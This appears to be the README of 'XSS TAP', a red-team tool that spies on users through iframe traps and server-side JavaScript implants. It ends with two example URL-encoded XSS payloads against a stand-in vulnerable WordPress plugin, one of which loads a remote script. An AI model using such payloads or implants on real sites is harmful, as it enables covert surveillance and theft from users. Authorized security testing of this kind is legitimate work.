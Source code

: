 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

Ok, this is getting refactored into both an iframe trap payload, and an implant
that can be dropped into an application server's javascript files. 

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 

Server ones:
flask
flask-cors
pyopenssl

Generator ones:
dataframe_image
fpdf
progressbar


HTML Parser:
bs4





https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27https://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E


https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E

